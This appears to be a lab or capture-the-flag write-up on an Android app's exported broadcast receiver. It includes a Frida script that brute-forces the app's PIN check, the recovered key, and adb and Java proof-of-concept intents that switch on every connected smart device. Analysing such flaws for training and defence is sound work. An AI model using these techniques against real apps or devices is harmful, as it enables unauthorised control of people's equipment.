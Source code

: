 The **`masterReceiver`** component in the application is a **broadcast receiver** that listens for system-wide messages with the action **`MASTER_ON`**. When this action is received, the receiver extracts a numeric PIN from the broadcast message using the key parameter **`key`**. The extracted PIN is then verified using the **`Checker.check_key()`** method to determine whether the provided PIN is correct. If the PIN is valid, the application triggers the **`turnOnAllDevices()`** method, which activates all smart devices connected to the system, such as fans, bulbs, AC, and more. Additionally, a **Toast message** appears confirming that all devices have been turned on. However, if the PIN is incorrect, the application displays a message saying **“Wrong PIN!!”**. Since the **broadcast receiver** is marked as **exported** in the manifest file, this makes the component accessible to external applications or system commands. This means an attacker can exploit this functionality by manually sending a broadcast message using tools like **ADB** or **Frida**









**Bruteforce the key with frida**

```javascript
Java.perform(function() {
        Java.choose('Checker',{
        // If an instance has been found
        onMatch: function(instance) {
                for(let i = 0;i<1000;i++){
                    let key = i.toString().padStart(3, '0');
                    if(instance.check_key(parseInt(key))){
                        console.log("[+] key: " + key);
                    }
                }
        },
        // Done scanning app memory
        onComplete: function() {
            send("Done scanning the app memory");
        }
    });
});
```

The key is 345



**adb**

Send the broadcast receiver with the correct key

```bash
adb shell am broadcast -a MASTER_ON --ei key 345
```



**Android app PoC**

```java
Intent intent = new Intent("MASTER_ON");
intent.putExtra("key", 345);
sendBroadcast(intent);
```

